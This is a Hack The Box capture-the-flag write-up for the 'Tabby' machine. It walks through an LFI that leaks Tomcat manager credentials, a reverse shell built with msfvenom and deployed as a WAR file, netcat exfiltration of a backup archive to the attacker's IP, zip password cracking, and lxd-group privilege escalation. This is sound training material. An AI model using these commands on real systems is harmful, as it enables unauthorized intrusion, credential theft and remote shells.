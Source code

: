 ```yaml
---
title: "[HTB] Machine: Tabby"
description: "[HTB] Machine: Tabby"
date: 2023-07-01
menu:
  sidebar:
    name: "[HTB] Machine: Tabby"
    identifier: htb-machine-tabby
    parent: htb-machines-linux
    weight: 10
hero: images/tabby.png
tags: ["HTB"]
---
```


# Tabby
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.194
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 16:48 BST
Nmap scan report for 10.10.10.194 (10.10.10.194)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.36 seconds
```
- Web Server and port `8080`

![](./images/1.png)
![](./images/2.png)


- `gobuster`
```
└─$ gobuster dir -u http://megahosting.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://megahosting.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/01 17:16:46 Starting gobuster in directory enumeration mode
===============================================================
/news.php             (Status: 200) [Size: 0]
/files                (Status: 301) [Size: 318] [--> http://megahosting.htb/files/]
/index.php            (Status: 200) [Size: 14175]
/.php                 (Status: 403) [Size: 280]
/assets               (Status: 301) [Size: 319] [--> http://megahosting.htb/assets/]
/Readme.txt           (Status: 200) [Size: 1574]
/.php                 (Status: 403) [Size: 280]
```

## Foothold
- `LFI`
  - If we scan through a web server, we will find a `/news.php?file=` path
  - We can try checking for `LFI`, which actually works

![](./images/3.png)

- According to the message from port `8080`, the file with users should be `etc/tomcat9/tomcat-users.xml`
  - Which returns nothing if we try to curl it

![](./images/4.png)

- If we google a bit, we find that Ubuntu might store the file in `/usr/share/tomcat9/etc/`
  - `tomcat:$3cureP4s5w0rd123!`

![](./images/5.png)
![](./images/6.png)

- `403` for accessing `/manager`
  - But we have access to `/host-manager`

![](./images/7.png)
![](./images/8.png)

- But we have access to `/manager/text` based on `manager-script` permission from `tomcat-users.xml` - 
  - [Commands](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands)

![](./images/9.png)

- So 
  - `msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.7 -f war -o shell.war LPORT=6666`
  - `curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/revshell --upload-file shell.war`
  - Launch listener and then `curl http://10.10.10.194:8080/revshell`

![](./images/10.png)
![](./images/11.png)
![](./images/12.png)


## User
- We saw from `LFI` that we have a user `ash`
  - So let's enumerate the box
  - We found a backup file which belongs to `ash`

![](./images/13.png)

- I downloaded the file to my box
  - `cat 16162020_backup.zip | nc 10.10.16.7 7777`
  - `nc -lvnp 7777 > backup.zip`
  - Check with `md5sum` for corruptions

![](./images/14.png)
![](./images/15.png)

- The archive is protected with password, so I used `john` to crack it: `admin@it`

![](./images/16.png)

- I found nothing inside the archive
  - But luckily `ash` reused password

![](./images/17.png)

## Root
- From the `linpeas` out I saw that `ash` was in `adm` and `lxd` groups

![](./images/17.png)

- Let's use the following [post](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
  - Run these instructions on attack box
```
#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
git clone https://github.com/lxc/distrobuilder
#Make distrobuilder
cd distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```
- After running those we will have 2 new files, which we have to upload to target box

![](./images/18.png)
![](./images/19.png)

- I needed to move uploaded files to `home` folder since I couldn't import the image
  - Then I followed the instructions from the link

![](./images/20.png)

- Rooted
```
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

![](./images/21.png)
